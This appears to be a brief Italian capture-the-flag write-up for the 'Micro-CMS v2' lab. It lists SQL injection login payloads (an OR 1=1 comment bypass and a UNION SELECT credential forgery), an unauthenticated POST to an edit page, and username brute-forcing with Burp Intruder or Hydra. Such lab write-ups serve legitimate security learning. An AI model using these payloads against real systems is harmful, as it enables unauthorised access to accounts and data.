 # Micro-CMS v2

## flag0

+ Creare nuova pagina, viene chiesto login

+ [username] admin [password] password => 'Unknown user'

+ [username] admin'sqltest [password] password => 'Traceback'

![picture](imgs/1.png)

+ [username] admin' OR 1=1# [password] password => 'Invalid password' => quindi admin(true) e password(false)

+ [username] admin= admin' UNION SELECT 'pwned'# [password] pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

![picture](imgs/2.png)

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ [username] admin = dipa' OR 1=1# [password] 'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 